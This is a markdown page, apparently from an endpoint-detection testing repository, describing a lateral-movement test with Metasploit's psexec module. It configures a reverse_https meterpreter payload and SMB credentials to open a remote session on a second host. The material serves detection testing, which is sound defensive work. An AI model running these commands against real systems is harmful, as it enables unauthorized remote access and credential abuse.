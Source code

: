 # Phase 2 Testing

## Lateral movement

This test starts at the conclusion of [Phase 1](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/MSF-Phase-1.md) complete that test first before starting Phase 2.

For this test we will move laterally using the PsExec module in metasploit. We are using an assume breach methodology so run test with a user that has administrative permissions to the test user or is domain admin on the testing domain.

```
use exploit/windows/smb/psexec

msf6 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_https

msf6 exploit(windows/smb/psexec) > set RHOST 172.16.2.X

set SMBDomain miratime.org
set SMBUser exampleuser
set SMBPass HASH/PW
set SESSION N

msf6 exploit(windows/smb/psexec) > exploit -j
```
Upon successful execution of this test you should get a new meterpreter session on the server.

![Lateral Session](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr9.png "Lateral Session")



